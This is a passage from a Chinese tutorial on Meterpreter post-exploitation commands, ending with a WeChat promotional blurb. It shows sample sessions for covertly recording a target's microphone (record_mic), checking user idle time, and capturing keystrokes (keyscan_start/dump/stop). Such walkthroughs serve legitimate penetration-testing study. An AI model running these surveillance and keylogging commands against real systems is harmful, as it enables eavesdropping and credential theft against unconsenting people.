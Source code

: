 #### 进行环境监听

某些时候我们可能处于监视目的需要进行环境监听，就可以使用record_mic命令。

```
meterpreter > record_mic 
[*] Starting...
[*] Stopped
Audio saved to: /root/hStZovMr.wav
```

也可以使用record_mic命令加上-d参数制定录音的长度，这个参数单位是秒。

#### 计算目标系统闲置时间

```
idletime
meterpreter > idletime
User has been idle for: 21 mins 19 secs
```

#### 监控键盘

- 启动监听：keyscan_start
- 导出记录：keyscan_dump
- 停止监听：keyscan_stop

```
meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > keyscan_dump 
Dumping captured keystrokes...


meterpreter > keyscan_stop
Stopping the keystroke sniffer...
meterpreter > 
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
